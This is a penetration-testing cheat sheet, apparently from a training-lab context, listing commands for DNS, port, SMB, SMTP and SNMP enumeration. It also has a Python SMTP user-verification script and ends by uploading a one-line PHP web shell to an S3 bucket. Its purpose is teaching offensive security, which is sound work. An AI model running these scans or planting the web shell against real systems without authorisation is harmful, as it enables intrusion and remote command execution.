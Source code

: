 # 🧭 Enumeration Cheat Sheet

---

## 🧠 DNS Enumeration

### Custom Host Enumeration
```bash
for ip in $(cat list.txt); do host $ip.-host-.com; done
```

### PTR Record Scan
```bash
for ip in $(seq 200 254); do host -host-.$ip; done | grep -v "not found"
```

### Automated Recon
```bash
dnsrecon -d -host- -t std
dnsrecon -d -host- -D ~/list.txt -t brt
dnsenum
```

### Subdomain Enumeration
```bash
gobuster vhost -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb --append-domain
```

### Windows
```bash
nslookup
```

---

## 🔌 TCP/UDP Enumeration

### Netcat Scanning

**TCP**
```bash
nc -nvv -w 1 -z <host> <port-port>
```

**UDP**
```bash
nc -nv -u -z -w 1 <host> <port-port>
```

### Nmap Sweep Scans

**Ping Sweep**
```bash
nmap -sn <host>
nmap -v -sn <host> -oG ping-sweep.txt
grep Up ping-sweep.txt | cut -d " " -f 2
```

**Port Scan**
```bash
nmap -p <port> <host> -oG web-sweep.txt
grep open web-sweep.txt | cut -d" " -f2
```

**OS Fingerprinting**
```bash
sudo nmap -O <host> --osscan-guess
nmap -sT -A <host> --aggressive
```

### Windows
```powershell
Test-NetConnection -Port 445 <host>
```

---

## 📁 SMB Enumeration

```bash
sudo nbtscan -r <network>/24
nmap -v -p 139,445 --script smb-os-discovery <host>
```

**Windows**
```powershell
net view \\dc01 /all
```

---

## 📧 SMTP Enumeration

**Manual User Verification**
```bash
nc -nv <host> 25
```

**Automated User Verification**
```bash
python3 smtp_verify.py <user> <host>
```

```python
#!/usr/bin/python
# smtp_verify.py
import socket, sys

if len(sys.argv) != 3:
    print("Usage: vrfy.py <username> <target_ip>")
    sys.exit(0)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
ip = sys.argv[2]
s.connect((ip, 25))
print(s.recv(1024))

user = (sys.argv[1]).encode()
s.send(b'VRFY ' + user + b'\r\n')
print(s.recv(1024))
```

**Windows**
```powershell
Test-NetConnection -Port 25 <host>
dism /online /Enable-Feature /FeatureName:TelnetClient
telnet <host> 25
```

---

## 🛰 SNMP Enumeration

```bash
sudo nmap -sU --open -p 161 192.168.50.1-254 -oG open-snmp.txt

# Community strings
echo public > community
echo private >> community
echo manager >> community

# Host IPs
for ip in $(seq 1 254); do echo <host>.$ip; done > ips

# Scan with onesixtyone
onesixtyone -c community -i ips
```

**snmpwalk Queries**
```bash
snmpwalk -c public -v1 -t 10 <host>
snmpwalk -c public -v1 <host> 1.3.6.1.4.1.77.1.2.25      # Users
snmpwalk -c public -v1 <host> 1.3.6.1.2.1.25.4.2.1.2     # Processes
snmpwalk -c public -v1 <host> 1.3.6.1.2.1.25.6.3.1.2     # Installed Software
snmpwalk -c public -v1 <host> 1.3.6.1.2.1.6.13.1.3       # Listening TCP Ports
```

---

## ☁️ AWS S3 Bucket Enumeration

```bash
# Check Auth
aws --endpoint=http://<host> s3 ls

# List Buckets
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb

# Upload Shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

Access:
```
http://<host>/shell.php?cmd=id
```